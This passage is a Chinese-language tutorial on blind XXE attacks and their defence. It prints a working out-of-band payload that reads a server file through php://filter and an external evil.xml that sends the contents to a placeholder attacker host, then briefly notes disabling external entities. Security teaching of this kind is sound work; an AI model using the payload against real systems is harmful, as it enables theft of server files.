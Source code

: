 xxe还有一种盲打形式，既然回显的结果不能从网站获取，那就把结果转入到自己的网站中。

```
paylaod：这一段是注入的xml攻击代码
首先外部实体file获取服务器指定的一个文件内容，外部实体dtd又加载了evil.xml文件。

<?xml version="1.0"?>
<!DOCTYPE test[
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=D:/1.txt">
<!ENTITY % dtd SYSTEM "http://xxx.xxx.xxx.xxx/evil.xml">
%dtd;
%send;
]>

其中evil.xml代码如下
首先定义了一个payload实体，其中&#x25;是%实体编码，即又定义了send外部实体，该实体会把file实体的加载的文件内容以get请求传入到自己所创建的网站中。

<!ENTITY % payload "<!ENTITY &#x25; send SYSTEM 'http://xxx.xxx.xxx.xxx/?content=%file;'>"> %payload;
//%号要进行实体编码成&#x25
```

## xxe防御

想要防止xxe渗透，只需禁止外部实体的使用

比如java可以使用这个代码禁用外部实体。

![image-20240803202832003](XXE渗透与防御/image-20240803202832003.png)	

比如在第一个xxe靶场中修改源代码，加上这一行关闭外部实体的使用。
